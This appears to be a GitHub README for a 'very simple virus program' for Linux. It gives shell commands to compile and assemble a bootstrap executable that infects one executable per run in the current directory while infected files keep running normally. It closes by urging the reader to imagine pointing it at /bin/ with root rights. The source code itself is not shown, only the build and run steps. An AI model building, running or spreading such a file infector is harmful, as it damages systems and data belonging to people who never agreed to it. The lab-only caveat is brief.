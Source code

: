 This is a DANGEROUS experiment. A very simple virus program that runs in Linux.

Use only in a secured lab setup.

#### Bootstrap procedure

````
g++ -O -Wall -std=c++11 hi.cpp -o hi
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
ls -l v_tmp
````

Make sure the size of `v_tmp` is `MYSIZE` in the `v.cpp` source. Do another

````
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
````

#### Start

Run the virus bootstrap executable in a directory that contains other executables:

````
./v
````

This will infect one executable per run, until all files are infected.

Infected files run like normal. The orginal code will be executed by the virus code.

By default, only executables in the current directory are infected.

Imagine what will happen when the default wil be `/bin/`, runing as root or with sudo rights.

